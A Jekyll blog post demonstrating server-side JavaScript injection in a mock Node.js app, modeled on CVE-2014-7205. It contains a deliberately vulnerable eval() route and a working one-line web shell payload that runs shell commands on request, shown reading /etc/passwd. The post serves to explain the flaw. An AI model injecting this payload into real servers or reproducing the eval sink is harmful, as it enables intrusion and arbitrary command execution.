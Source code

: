 ```yaml
---
layout: post
title:  "SSJS Web Shell Injection"
date:   2015-01-31 12:02:03
categories: node
---
```


I've recently become interested in real world examples of vulnerabilities in Node.js applications, which allow `Server Side Javascript injection`. One advisory I came across was <a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7205">CVE-2014-7205</a> discovered by Jarda Kotěšovec in a <a href="https://github.com/hapijs/bassmaster/commit/b751602d8cb7194ee62a61e085069679525138c4">Basmaster plugin</a> which allows arbitrary Javascript injection.

I decided to mock up a very simple example of user input passed to an eval() execution sink, to demonstrate an injection of a simple web shell into the server. This web shell will only exist within the current node.js process, and will not be written to disk.

This demo application will only allow a single user input selection to keep things simple:
![Demo app](/assets/SSJS_ws1.png)

Vulnerable code (user input passed to an eval execution sink):
{% highlight javascript %}
router.post('/demo1', function(req, res) {
  var year = eval("year = (" + req.body.year + ")");
  var date = new Date();

  var futureAge = 2050 - year;

  res.render('demo1',
    {
      title: 'Future Age',
      output: futureAge
    });
});
{% endhighlight %}

In this example res.write('SSJS Injection') is injected, and the server will return that string in the page response:
![Demo app](/assets/SSJS_ws2.png)

So we can perform arbitrary SSJS injection on this location. What about injecting a web shell that will start up after 5 seconds, listening on TCP/8000?
{% highlight javascript %}
setTimeout(function() {
    require('http').createServer(function(req, res) {
        res.writeHead(200, {
            "Content-Type": "text/plain"
        });
        require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e, s, st) {
            res.end(s);
        });
    }).listen(8000);
}, 5000)
{% endhighlight %}

One line web shell:
{% highlight javascript %}
setTimeout(function() { require('http').createServer(function (req, res) { res.writeHead(200, {"Content-Type": "text/plain"});require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);}); }).listen(8000); }, 5000)
{% endhighlight %}

Because we are inserting code which will be eval'd by the application, the web shell will not be written to disk, and execution will be performed from the existing node process. 

Injection of the web shell (application continues to respond normally):
![Demo app](/assets/SSJS_ws3.png)

Execution of `cat /etc/passwd` using the web shell:
![Demo app](/assets/SSJS_ws4.png)

Execution of `ls -la /etc`:
![Demo app](/assets/SSJS_ws5.png)

This is a really simple example of an application with a SSJS injection vulnerability. Another thing to note is that tools to identify web application vulnerabilities may not have support to detect this vulnerability. At the time of this writing, Burp Suite v1.6.10 did not identify a SSJS injection vulnerability in the demo application.

- `s1gnalCha0s`